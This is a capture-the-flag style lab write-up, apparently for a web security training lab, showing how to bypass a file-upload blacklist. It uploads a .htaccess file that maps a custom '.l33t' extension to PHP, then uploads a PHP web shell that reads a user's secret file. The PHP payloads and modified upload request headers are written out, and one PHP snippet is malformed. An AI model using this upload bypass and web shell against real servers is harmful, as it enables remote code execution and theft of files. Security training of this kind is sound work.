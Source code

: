 # Login
![1_0](01.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.


We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![3_0](03.png)

From the image, There is file restiction to upload. Now we have to create an executable file to execute via web shell and bypass it.

# Exploit

![4_0](04.png)


Using Burpsuite intercept the upload POST request. Using HTTP History filters add images and You can observe our request has been fetched using GET request **/files/avatars/'your-image'**. Send this request to Repeater.

![5_0](05.png)

In HTTP history, you can fing a POST request **/my-account/avatar** which is used to upload the file.

![6_0](06.png)

Now you have to make some changes to the request to bypass the blacklist restrictions.
    1] Change filename parameters sus.php to .htaccess
    2] Change Content-Type header to text/plain
    3] Replace the content of the file: AddType application/x-httpd-php .l33t

```bash
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain
```

[.l33t](https://thibaud-robin.fr/articles/bypass-filter-upload/) 
This maps an arbitrary extension to the executable MIME type application/x-httpd-php. As the server uses the mod_php module, it knows how to handle this already.

We got successfully uploaded after sending the request.

![7_0](07.png)

Now we have to return to the orginal request of uploading your php exploit using back arrow in repeater.

Now change the filename parameter form **sus.php** to **sus.l33t** and send the request again. 

We can notice file was uploaded successfully.

![8_0](08.png)

Again switch to the tab which is containg GET request **/files/avatars/sus.l33t** and send the request.
```bash
akAmIgdkf1u17jW5osmlBm19uY0VS1KA
```
Carlos's secret was retuned in the response.

# Conclution

From this lab we gained the basic idea of how to blacklist bypass restriction file upload function vunerablity.